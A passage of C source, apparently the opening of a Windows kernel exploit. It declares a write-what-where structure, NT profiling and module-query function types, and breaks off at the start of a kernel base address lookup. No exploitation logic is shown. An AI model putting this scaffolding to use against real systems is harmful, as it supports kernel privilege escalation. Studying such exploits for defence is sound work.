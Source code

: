 ```
 
typedef struct SYSTEM_MODULE_INFORMATION{
    ULONG                ModulesCount;
    SYSTEM_MODULE        Modules[1];
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;
 
typedef enum _SYSTEM_INFORMATION_CLASS{
    SystemModuleInformation = 0xB
} SYSTEM_INFORMATION_CLASS;
 
typedef struct _WRITE_WHAT_WHERE
{
    PULONG_PTR What;
    PULONG_PTR Where;
} WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;
 
typedef enum _KPROFILE_SOURCE {
    ProfileTime,
    ProfileAlignmentFixup,
    ProfileTotalIssues,
    ProfilePipelineDry,
    ProfileLoadInstructions,
    ProfilePipelineFrozen,
    ProfileBranchInstructions,
    ProfileTotalNonissues,
    ProfileDcacheMisses,
    ProfileIcacheMisses,
    ProfileCacheMisses,
    ProfileBranchMispredictions,
    ProfileStoreInstructions,
    ProfileFpInstructions,
    ProfileIntegerInstructions,
    Profile2Issue,
    Profile3Issue,
    Profile4Issue,
    ProfileSpecialInstructions,
    ProfileTotalCycles,
    ProfileIcacheIssues,
    ProfileDcacheAccesses,
    ProfileMemoryBarrierCycles,
    ProfileLoadLinkedIssues,
    ProfileMaximum
} KPROFILE_SOURCE, * PKPROFILE_SOURCE;
 
typedef NTSTATUS(WINAPI* PNtQuerySystemInformation)(
    __in SYSTEM_INFORMATION_CLASS SystemInformationClass,
    __inout PVOID SystemInformation,
    __in ULONG SystemInformationLength,
    __out_opt PULONG ReturnLength
    );
 
typedef NTSTATUS(WINAPI* PNtQueryIntervalProfile)(
    __in KPROFILE_SOURCE ProfileSource,
    __in ULONG* Interval);
 
typedef NTSTATUS(WINAPI* PNtSetIntervalProfile)(
    __in ULONG* Interval,
    __in KPROFILE_SOURCE ProfileSource);
 
INT32 GetKernelBaseAddress(){
 
    //Get NtQuerySystemInformation Address
```